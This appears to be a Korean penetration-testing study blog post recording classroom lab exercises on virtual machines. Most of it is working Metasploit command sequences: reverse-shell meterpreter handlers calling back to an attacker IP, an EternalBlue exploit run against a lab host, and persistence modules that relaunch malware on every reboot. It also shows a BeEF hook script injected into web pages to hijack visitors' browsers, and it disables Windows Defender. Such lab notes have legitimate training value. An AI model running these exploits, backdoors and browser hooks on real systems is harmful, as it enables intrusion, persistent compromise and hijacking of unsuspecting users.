---
title:
date: 2026-05-22
categories:
  - security
comments: true
tags:
  - 모의침투
---
---

	1. 연결 유지
	2. Backdoor



	혹시라도 도메인 가입되어 있으면 도메인 해제



	실습을 위해서 w10, w11 가상환경에서
	개인 정보 및 보안 -> Windows보안 -> 바이러스 및 위협 방지 -> 바이러스 및 위협 방지 설정
	전부 끄고 제외 사항 추가: 바탕화면 폴더, 다운로드 폴더


**w10공격**
```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 10.0.0.41
set lport 60060
run
background
sessions -l
sessions 1
run persistence
background
use exploit/windows/local/persistence


set session 1
set lport 60010
run
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
show advanced #타겟쪽에 세부설정
set exitonsession false
set lport 60010
run -j
```


**meta3 공격**
```bash
msfconsole
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 10.0.0.31
run

use exploit/windows/local/persistence_service
set session 1
run

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set lhost 10.0.0.41
set exitonsession false
run -j
sessions -l

#세션id 확인
sessions 372
shell
```

	기존 세션 알고 재부팅할떄마다 악성코드 재실행


**만약 Kali 업데이트를 해버려서 패키지가 없는 경우**

```bash
# root에서
mkdir -p ~/.msf4/modules/exploits/windows/local/
curl -o ~/.msf4/modules/exploits/windows/local/persistence_service.rb https://raw.githubusercontent.com/rapid7/metasploit-framework/6.3.0/modules/exploits/windows/local/persistence_service.rb

ls -lh ~/.msf4/modules/exploits/windows/local/

# msfconsole접속해서
msf exploit(multi/handler) > reload_all
```


---
**다시 실습습**



```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
show options
set lhost 10.0.0.41
set lport 60060
run
background
sessions -l
use exploit/windows/local/persistence_service
show options
set session 1
run
sessions -l
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set lport 4444
set exitonsession false
run -j
sessions -l
```


**beef**

	무서운놈이다

```bash
apt install -y beef-xx
beef-xss
beef-xss-start
```













	html 내부에
	<script src="http://10.0.0.41:3000/hook.js">
	코드만 입력하면 장난칠 수 있음


**CentOS**

```bash
service httpd start
service mysqld start
```

**Aircon 사이트로 접속 성공**







	검증없이 실행되는 문제가 발생함


---
**실습**

**1. 팀원끼리 사이트 beef만 적용**



	내가 팀원껄 들어갔을때 -> 성공



	상대가 내 사이트를 접속해서 연결 성공

**2. clippy로 악성코드 설치 유도


---
- OWASP Top 10
	웹 앱 보안 취약점 문서
	3년에 한번씩 업데이트